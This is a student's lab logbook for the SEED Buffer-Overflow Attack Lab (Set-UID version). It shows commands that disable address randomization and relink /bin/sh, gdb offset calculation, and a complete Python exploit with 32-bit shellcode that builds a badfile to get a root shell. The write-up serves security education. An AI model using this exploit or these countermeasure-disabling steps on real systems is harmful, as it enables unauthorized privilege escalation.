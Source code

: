 # Buffer-Overflow Attack Lab - Set-UID Version

# Introduction

In this logbook we will execute an exploit related to buffer-overflow. To do that we need to turn off some countermeasures of the system.

To prevent this type of attacks the systems implemented an address space randomization that will randomize the starting address of heap and stack. This makes guessing the addresses, one of the critical steps of buffer-overflow attacks, much more difficult.

To turn off this feature we ran this command:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

In the recent versions of Ubuntu OS, the `/bin/sh` symbolic link points to the `/bin/dash` shell. The `dash` program, as well as `bash`, has implemented a security countermeasure that prevents itself from being executed in a `Set-UID` process.

So we used the following command to link `/bin/sh` to another shell that doesn't have such a countermeasure `zsh`:

```bash
$ sudo ln -sf /bin/zsh /bin/sh
```

## Question 1

### Task 1

In this task we can understand how a shell code works. Using the code provided in the file *call_shellcode.c* we can initiate a new shell. When we compile this program with the given *Makefile* it will create two binaries, *a32.out* and *a64.out*. Runnig them we will see that a new shell is initiated. 

### Task 2

In this task we can understand better the way the attack will be performed. First we disabled certain security mechanisms, to ensure that the program is susceptible to a buffer overflow attack, only then we compiled the vulnerable program `stack.c`. By setting the program as a root-owned Set-UID program, we were created the conditions needed for potential privilege escalation when the vulnerability is exploited in the next task.

### Task 3

In this task we used `gdb` to debug the file `stack-L1-dbg` that we create using the Makefile.
Using this tool we can obtain the ebp and the buffer address and this way we can calculate the offset that is the difference between the ebp address and the buffer adress plus 4. With the offset we know were the eip address is and we can manipulate it to have the address of some function we want to run instead of the address of the point were the eip is pointing for. In this case we will put in this address the address of our shellcode.

Knowing this we create a script in python (`exploit.py`) were we create a badfile with 517 nop's (this will overflow the buffer because the size is 100+8*6).



<div align="center">
    <figure>
        <img src="images/logbook5/logbook5_1.png">
        <figcaption style="font-size: smaller">Figure 1: Ebp and buffer adresses</figcaption>
    </figure>
</div>

 

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f" 
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31" 
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca7c + start         # Change this number 
offset = 0xffffcb18 - 0xffffca7c + 4             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
  ```


<div align="center">
    <figure>
        <img src="images/logbook5/logbook5_2.png">
        <figcaption style="font-size: smaller">Figure 2: Exploit working</figcaption>
    </figure>
</div>

## Question 2

